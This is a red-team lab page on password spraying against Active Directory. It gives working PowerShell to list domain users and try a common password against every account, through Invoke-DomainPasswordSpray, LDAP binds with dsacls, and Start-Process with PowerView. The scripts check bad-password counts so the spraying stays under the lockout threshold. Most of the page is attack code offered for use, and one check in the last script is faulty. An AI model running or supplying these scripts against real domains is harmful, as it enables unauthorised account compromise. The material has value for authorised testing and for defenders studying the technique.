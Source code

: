 # Active Directory Password Spraying

This lab explores ways of password spraying against Active Directory accounts.

## Invoke-DomainSpray

{% code title="attacker@victim" %}
```csharp
Get-ADUser -Properties name -Filter * | Select-Object -ExpandProperty name |  Out-File users.txt
type users.txt
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 21-29-13.png>)

{% code title="attacker@victim" %}
```csharp
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 21-32-37.png>)

## Spraying using dsacls

While I was poking around with dsacls for enumerating AD object permissions

{% content-ref url="using-dsacls-to-check-ad-object-permissions.md" %}
[using-dsacls-to-check-ad-object-permissions.md](using-dsacls-to-check-ad-object-permissions.md)
{% endcontent-ref %}

I noticed that one could attempt to bind to LDAP using specific AD credentials, so a dirty AD password spraying POC came about:

{% code title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }
    }
}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 00-10-10.png>)

## Spraying with Start-Process

Similarly to dsacls, it's possible to spray passwords with `Start-Process` cmdlet and the help of PowerView's cmdlets:

{% code title="spray-ldap.ps1" %}
```csharp
# will spray only users that currently have 0 bad password attempts
# dependency - powerview

function Get-BadPasswordCount {
    param(
        $username = "username",
        $domain = "offense.local"
    )
    $pdc = (get-netdomain -domain $domain).PdcRoleOwner
    $badPwdCount = (Get-NetUser $username -Domain $domain -DomainController $pdc.name).badpwdcount
    return $badPwdCount
}

$users = Get-netuser -properties samaccountname | Select-Object -ExpandProperty samaccountname
$domain = "offense.local"
$password = "123456"

Write-Host $users.Count users supplied; $users | % {
    $badPasswordCount = Get-BadPasswordCount -username $_ -Domain $domain
    if ($badPasswordCount -lt 0) {
        Write-Host Spraying : -NoNewline; Write-host -ForegroundColor Green " $_"
        $credentials = New-Object System.Management.Automation.PSCredential -ArgumentList @("$domain\$_",(ConvertTo-SecureString -String $password -AsPlainText -Force))
        Start-Process cmd -Credential ($credentials)
    } else {
        Write-Host "Ignoring $_ with $badPasswordCount badPwdCount" -ForegroundColor Red
    }
}
```
{% endcode %}

Enjoy the shells:

![](../../.gitbook/assets/spraying.gif)

## References

{% embed url="https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon" %}



